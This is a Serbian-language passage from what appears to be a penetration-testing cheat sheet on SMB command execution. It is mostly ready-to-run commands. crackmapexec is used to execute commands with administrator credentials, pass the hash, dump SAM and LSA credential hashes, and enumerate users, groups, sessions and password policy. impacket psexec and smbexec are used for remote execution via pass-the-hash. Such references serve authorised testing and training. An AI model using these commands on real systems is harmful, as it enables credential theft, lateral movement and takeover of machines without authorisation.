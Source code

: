 ## **Izvršavanje komandi**

### **crackmapexec**

crackmapexec može izvršiti komande **zloupotrebom** bilo kog od **mmcexec, smbexec, atexec, wmiexec** pri čemu je **wmiexec** metoda **podrazumevana**. Možete naznačiti koju opciju želite da koristite pomoću parametra `--exec-method`:

```bash
apt-get install crackmapexec

crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -H <HASH> #Pass-The-Hash
```

### [**psexec**](../../windows-hardening/lateral-movement/psexec-and-winexec.md)**/**[**smbexec**](../../windows-hardening/lateral-movement/smbexec.md)

Oba opcije će **kreirati novu uslugu** (koristeći _\pipe\svcctl_ putem SMB-a) na ciljnom računaru i koristiti je za **izvršavanje nečega** (**psexec** će **prebaciti** izvršnu datoteku na ADMIN$ deljenje, a **smbexec** će pokazati na **cmd.exe/powershell.exe** i staviti u argumente payload --**tehnika bez datoteke-**-).\
**Više informacija** o [**psexec**](../../windows-hardening/lateral-movement/psexec-and-winexec.md) i [**smbexec**](../../windows-hardening/lateral-movement/smbexec.md).\
Na **kali** se nalazi u /usr/share/doc/python3-impacket/examples/

```bash
#If no password is provided, it will be prompted
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
```
